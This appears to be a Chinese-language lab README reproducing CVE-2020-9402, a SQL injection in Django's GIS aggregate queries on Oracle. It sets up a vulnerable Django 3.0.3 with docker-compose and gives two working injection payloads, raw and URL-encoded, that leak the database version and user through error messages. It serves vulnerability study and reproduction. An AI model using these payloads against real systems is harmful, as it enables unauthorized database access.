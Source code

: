 # Django GIS SQL注入漏洞（CVE-2020-9402）

Django在2020年3月4日发布了一个安全更新，修复了在GIS 查询功能中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

该漏洞需要开发者使用了GIS中聚合查询的功能，用户在oracle的数据库且可控tolerance查询时的键名，在其位置注入SQL语句。

## 漏洞环境

执行如下命令编译及启动一个存在漏洞的Django 3.0.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

### 漏洞一

首先访问`http://your-ip:8000/vuln/`。

在该网页中使用`get`方法构造`q`的参数，构造SQL注入的字符串`20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1`

http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1

可见，括号已注入成功，SQL语句查询报错：

![](1.png)

### 漏洞二

访问`http://your-ip:8000/vuln2/`。
在该网页中使用`get`方法构造`q`的参数，构造出SQL注入的字符串`0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --`

http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--

![](2.png)
